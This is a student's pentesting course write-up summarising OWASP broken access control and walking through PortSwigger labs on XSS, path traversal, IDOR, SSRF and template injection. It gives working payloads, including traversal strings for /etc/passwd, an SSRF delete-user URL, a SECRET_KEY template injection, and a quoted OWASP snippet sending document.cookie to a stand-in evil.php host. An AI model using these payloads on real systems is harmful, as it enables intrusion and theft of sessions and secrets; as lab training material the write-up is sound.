## Yunwei Cui | Pentesting Course

# h3: Totally legal certificate

## x. Summaries

### A:01:2021 Broken Access Control

Access control refers to the ability of users to modify, create and read data in their roles. Sometimes a business has databases or apps or cloud infra and you should give certain people only certain permissions to do their intended work without accidentally allowing them to delete everything.

Examples:
- Violation of least privilege
- Modifying URL or API requests can break AC
- Elevating your privilegess to admin even if you're just a normal user
- Insecure direct object references which means modifying an ID of a request parameter in order to access data they are not supposed get access to (PortSwigger)

Some ways to prevent these:
- Implementing least privilege, models to control ownership, log access and failures, alert admins of repeated failures

#### Insecure Direct Object Reference 
aka IDOR means that the user gets direct access to objects such as database. 
- An example would be an URL that retrieves information directly from the back-end database. An attacker could modify the URL to retrieve something else other than what you want them to get if not secured properly
- This sounds a lot like SQL injection except instead of injecting a query, you simply do not have the proper restrictions to the database access

#### Path Traversal
Let's the attacker read files on the server running the app which you didn't intend for them to read. This could include sensitive data and passwords. An url could include filename such as `src=/files/usr/something.png`, you could potentially change the file path to display something else.

#### Cross Site Scripting
aka XSS is a vulnerability that allows an attacker to modify the javascript of the page and potentially compromise users who login into the page. An example of this would be the using the alert() function to inject malicious javascript code or inserting `<script>` tag into an HTTP request.

It can also be stored, for example, if an app let's you write plain HTML into their web app without any security checks, you could inject malicious `<script>` tags into them to do bad things.


## a. Install OWASP ZAP

I downloaded zaproxy using `sudo apt-get install zaproxy`


Next I need to get a certificate for the proxy to act as an intermediary between the browser and me. 

It was found under Tools => Options => Network => Server Certificates and generated the certificate


I then went to Firefox, imported the certificate and saved.


Finally I went into the browser, turned on the proxy setting on Firefox and set up the proxy.


I used localhost on port 8080, saved and opened Google.com. We can see that zap is listening properly on the right ports.


## b. Install FoxyProxy

Installing it is straightforward, it's an extension that is added on Firefox


First I had to disable manual proxy in Firefox and opened FoxyProxy. I went into the options and Proxies and put in the ZAP proxy localhost settings and used port 8080. Remember to save.


Now we can go back and see ZAP as a setting on FoxyProxy which we can use. We can choose between disable and ZAP.


It works.


## c Reflected XSS into HTML context with nothing encoded

This is a Portswigger lab about cross site scripting. The searchbar is vulnerable to cross-site scripting because it runs the given input unsanitized as HTML which is very dangerous. It can lead to stealing of cookie sessions with a simple script.


Here I will just do a demonstration that Javascript works by using `<script>alert('this is vulnerable');</script>`


## d. Stored XSS into HTML context with nothing encoded

In this portswigger lab, we have a comment section which is vulnerable to XSS. We can check this with the same script as a comment: `<script>alert('this is vulnerable');</script>`


Now when we go back after submitting the comment or refresh the page, we get a popup alert, meaning that it executed our javascript:


-- Update 
Dont use someone else's site when testing 

### e. Why is this dangerous?

The reason this can be dangerous is because it can be used to steal your cookie sessions on the webpages you visit such as facebook, gmail, etc.

An example on OWASP.ORG: 

```javascript
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```  

This allows the person to grab all your cookies and write to attacker's file on their .php server

-- Update
This won't allow the attacker to grab all your cookies, only the cookies for the specific site the XSS is on

Not only that, the bad actor could write malware or malicious code that does bad things to your computer. It's very difficult to protect yourself from this because it is the website developer's responsibility to make sure their site is safe. 

## f. File path traversal, simple case

In this portswigger lab, we are trying to traverse the server machine's directories to get to /etc/passwd

This requires a proxy to modify the file retrieval of the image file: 


We can see that the image is stored as `/resources/images/rating4.png`

We now use ZAP to intercept the HTML GET request and will start modifying it.

I watched a YouTube tutorial that explains ZAP how to use the requester to modify the HTML content before it is displayed by Bash Bunny: https://www.youtube.com/watch?v=MT01x-vyCJU

First I found the GET image request and sent it to the requester


In the requester tab we can see the image and modify the path that gets the image. Here it is `filename=44.jpg` We will change the filepath after the `=` sign.


We will add our path: `../../../etc/passwd`

It shows a 200 OK, meaning that the request went through: 


Now when we change the body type from img to text we see the passwd file:


This lab is now solved

## g. File path traversal, traversal sequences blocked with absolute path bypass

In this portswigger lab, the direct path traversal is blocked but we can modify the absolute path which is simply `/etc/passwd` right after the filename. In this case we are not traversing through the machine but simply getting it from the root folder itself.


We will modify filename as `filename=/etc/passwd` without the traversal part of `../../`


And the lab is solved, albeit I expected something more complicated such as modifying the `filename=` to something else.

## h. File path traversal, traversal sequences stripped non-recursively

In this portswigger lab, we were given the instruction that we can use nested traversal sequences, for example `....//` or `....\/` so let's test them out

We are greeted by the familiar `filename=31.jpg` in the browser HTML



I will intercept it and modify it



it didn't work so I tried some other variations such as `....//....//etc/passwd` and `....\/....\/etc/passwd` but they didn't work either. I refered to an online guide by Karthikeyan Nagaraj on Medium.com. It showed that I simply needed 1 more backwards cd .. in order to solve the lab. 

`....//....//....//etc/passwd` is the solution. 



This makes me wonder, how do you know how many times back do you need to go in the directories?

## i. Insecure direct object references

In this portswigger lab, we have a live chat. 



When we click on the download transcript, we can download a txt file that shows up on ZAP



We will send it to the repeater, and according to a video by Intigriti on "How to search for IDORs", the vulnerability is that since the server sends you 2.txt, there is potentially a 1.txt that we may have missed. We can see if we can request the 1.txt which may contain sensitive information.



We can see that when we request for 1.txt, it sends us the previous conversation by another user. This shows how even though we are not logged in as the other user, we can access their data and history without the need for admin rights. This can be dangerous because if you get passwords or login information, you can get admin privileges.

We can now use the password and log in as carlos on the login page:



## j. Basic serverside request forgery

In this portswigger lab, we will exploit serverside request forgery which according to their website is an attack where we use the website to communicate with their back-end systems that haven't been secured properly.

For example, the website can be calling an API endpoint for a request, but instead of the original URL, we make the website call its `localhost/admin` to potentially fetch sensitive contents and return it.

In this lab we have a button that sends a POST request to the backend server



This is the endpoint in the network tab:



I will attempt to change this to localhost. Here we have the API request in ZAP



Changing the `stockApi=localhost` doesnt seem to work and it says missing parameter.



I then tried `http://localhost/admin` as in the reading material on portswigger and it gave me the another HTML page on their localhost which shows some options such as `/admin/delete?username=carlos`



I will use this on top of the localhost admin query to delete carlos as a user using `http://localhost/admin/delete?username=carlos`



Now we can see that the lab is solved. This is actually really fun.

## k. Serverside Template Injection

This is a portswigger lab on serverside template injections which is a method of exploit by using malicious syntax to inject code that is executed by the server. They can then do bad stuff such as steal, destroy or edit data and cause harm to other users who visit the site.

This happens when the input is treated as part of the template string rather than sanitized as data.

An example by portswigger shows how an email engine could get user input to send them automated emails.

`$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );`

`$output = $twig->render("Dear " . $_GET['name']);`

You can inject bad stuff in the place where GET['name'] exists. This would inject a payload into the name parameter.

In this lab we can edit the template of a product description: 



We can find the POST request that the website makes when we click the "Preview" or "Save" button



It seems like a fuzzed template, and now we can try different template injections. I will first try `{{7 * 7}}` to see if it executes anything


We get an internal server error which means it does go through and executes it and is not passed as a string.

According to the lab hints, we can use `` to display the details of the django framework which the lab is constructed in.



Finally we can use `{{settings.SECRET_KEY}}` to show the django framework secrets.



Now we got the secret key we have solved the lab.


## References
https://terokarvinen.com/tunkeutumistestaus/#h3-taysin-laillinen-sertifikaatti

https://www.youtube.com/watch?v=_Of3PqqKxDA

https://owasp.org/Top10/A01_2021-Broken_Access_Control/

https://portswigger.net/web-security/access-control/idor

https://portswigger.net/web-security/file-path-traversal

https://portswigger.net/web-security/cross-site-scripting

https://www.zaproxy.org/getting-started/

https://www.youtube.com/watch?v=tmk3yfOJ55w

https://owasp.org/www-community/attacks/xss/

https://www.youtube.com/watch?v=MT01x-vyCJU

https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass

https://medium.com/infosecmatrix/3-3-lab-file-path-traversal-traversal-sequences-stripped-non-recursively-2024-5dd6b7d227e6

IDOR Lab:
https://www.youtube.com/watch?v=jgbHaALms_Q

https://portswigger.net/web-security/ssrf

https://portswigger.net/web-security/server-side-template-injection#what-is-server-side-template-injection